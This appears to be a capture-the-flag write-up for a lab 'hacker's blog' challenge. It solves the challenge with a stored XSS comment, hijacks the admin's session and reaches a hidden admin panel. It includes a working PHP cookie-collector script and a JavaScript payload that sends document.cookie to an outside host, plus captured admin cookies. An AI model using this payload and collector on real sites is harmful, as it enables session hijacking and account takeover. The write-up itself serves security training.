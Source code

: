 ﻿# Hacker's blog

![Site](/img/1.png)

1. Go to a hacker's blog, see the articles. Go to any article and find comments.
2. Try to write something. See that there is pre-moderation (10 min) - then the admin looks at comments and deletes bad comments.
3. Try XSS attack. Write a simple code to accept cookies on your web server:
```php
<?php
$text = urldecode($_SERVER['QUERY_STRING']);
if (!empty($_SERVER['HTTP_CLIENT_IP'])) 
{
	$ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
{
	$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else
{
	$ip=$_SERVER['REMOTE_ADDR'];
}
$file=fopen("file.txt", "a");
fwrite ($file, $text.PHP_EOL);
fwrite ($file, $ip.PHP_EOL);
fclose($file);
?>
```
5. Write in the text field the JS to steal cookies:
```js
<script>var img=new Image();img.src="http://site.ru/xss.php?"+ encodeURI(document.cookie);</script>
```
4. Get cookies `password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; login=admin`
5. Now you need somewhere to apply cookies. Are looking for it or admin authorization. On any page, you can find review: `Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvywrtaw42ndy0ms5waha=`. Decode base64 - http://10.0.7.216:54337/admin64641.php
6. We see the inscription: "Неверный логин или пароль! Доступ запрещен!". Use any extension to assign cookies. For Firefox https://addons.mozilla.org/ru/firefox/addon/cookies-manager-plus/developers
7. On the page `admin64641.php` see the flag.
